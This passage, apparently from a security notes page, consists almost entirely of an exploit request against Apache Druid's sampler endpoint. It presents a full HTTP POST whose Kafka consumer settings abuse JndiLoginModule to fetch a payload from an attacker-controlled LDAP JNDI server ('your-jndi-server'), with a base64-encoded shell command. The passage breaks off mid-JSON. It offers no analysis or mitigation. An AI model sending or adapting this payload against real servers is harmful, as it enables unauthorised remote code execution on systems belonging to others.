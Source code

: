 [![](assets/1708677570-68c73d003d9e22c80fd8ad1c9fc94172.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240220215851123.png)

Exp：

```plain
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: {{Hostname}}:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
```